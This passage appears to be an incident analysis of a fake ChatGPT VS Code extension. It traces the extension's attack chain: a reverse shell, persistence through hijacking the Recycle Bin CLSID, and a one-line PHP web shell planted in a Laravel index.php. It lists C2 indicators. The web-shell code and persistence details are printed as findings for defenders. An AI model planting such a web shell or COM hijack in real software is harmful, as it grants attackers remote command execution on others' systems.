_VirusTotal analysis results showing temp.exe as malware and revealing the registry modification technique used for persistence._

**The breakthrough:** Searching this CLSID led me to discover it was the **Recycle Bin identifier**.

```
CLSID: {645FF040-5081-101B-9F08-00AA002F954E}
```

**This was CLSID hijacking** - an extremely sophisticated persistence technique. Every time a user interacts with the Recycle Bin (which happens constantly), it triggers the malicious process to download and execute files via PowerShell.

**MITRE Technique:** T1546.015 (Event Triggered Execution: Component Object Model Hijacking)

### Web Shell Discovery

The threat actor also modified a project file for additional persistence. In the Laravel application's /Users/User2/Project/laravel-11.1.4/public/index.php:

```php
$testc = $_GET['s1']; echo `$testc`;
```

![index.php File changed for additional persistence](../images/ReliableThreat-webshell-indexphp.png)

This creates a web shell allowing remote command execution via the `s1` parameter.

---

## Technical Analysis Summary

### Attack Chain

1. **Social Engineering:** User installs fake ChatGPT extension
2. **Trigger:** User types "help" to try the extension
3. **Payload:** Obfuscated JavaScript establishes reverse shell
4. **Persistence 1:** CLSID hijacking targets Recycle Bin
5. **Persistence 2:** Source code modification to allow a Web shell injection in Laravel app

### Sophistication Level: High

**What made this attack sophisticated:**

- **Supply chain compromise** through legitimate marketplace
- **Heavy obfuscation** to evade detection
- **Multiple persistence mechanisms** for redundancy
- **CLSID hijacking** requires deep Windows internals knowledge
- **Strategic target selection** (Recycle Bin = high interaction frequency)

### Key Indicators of Compromise (IOCs)

**Network:**

- 6.tcp.eu.ngrok.io:16587 (VSCode extension C2)
- 18.197.239.5:18854 (RuntimeBroker.exe C2)

